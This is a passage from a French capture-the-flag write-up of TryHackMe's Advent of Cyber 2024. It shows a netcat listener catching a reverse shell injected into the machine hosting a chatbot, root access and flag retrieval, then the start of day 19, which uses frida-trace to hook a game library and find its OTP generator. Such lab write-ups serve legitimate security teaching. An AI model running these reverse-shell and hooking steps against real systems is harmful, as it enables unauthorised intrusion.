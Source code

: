 Nous mettons notre machine d'attaque en écoute avec {% include dictionary.html word="netcat" %}, nous injectons du code permettant d'obtenir un *{% include dictionary.html word="reverse-shell" %}*

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-18_revshell.png" caption="Injection d'un reverse shell" %}

Nous obtenons ainsi un accès en tant que root sur la machine hébergeant le *chatbot*

```bash
rlwrap nc -lvnp 9000
Listening on 0.0.0.0 9000
Connection received on 10.10.176.254 37048
whoami
root
```

Nous améliorons d'abord le shell obtenu.

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Puis nous partons à la recherche du flag.

```bash
find / -iname flag.txt -type f 2>/dev/null
/home/analyst/flag.txt

cat /home/analyst/flag.txt
THM{[...expurgé...]}
```

## Jour 19 : J'ai juste remarqué que tu étais mal stocké, mon cher secret

![Game hacking](https://img.shields.io/badge/Game%20hacking-4d354a?logo=tryhackme)

![Jour 19](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5ed5961c6276df568891c3ea-1732331833645.svg)

Au programme du jour : hacker un jeu vidéo en interceptant les requêtes API avec [Frida](https://frida.re/).

En lançant le jeu, nous nous retrouvons confrontés à un premier défi : rentrer un code OTP. Nous allons devoir trouver comment ce code est généré pour pouvoir avancer.

Nous relançons donc le jeu, cette fois en interceptant les fonctionnalités à l'aide de **Frida**

```txt
frida-trace ./TryUnlockMe -i 'libaocgame.so!*'
Instrumenting...                                                        
[...expurgé pour brièveté...]
Started tracing 4 functions. Web UI available at http://localhost:1337/ 
           /* TID 0x7f3 */
 73825 ms  _Z7set_otpi()
```

Nous trouvons la première fonction `_Z7set_otpi` qui permet de générer le code OTP attendu.

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-19_set-otp.png" caption="Fonction servant à générer le code OTP" %}
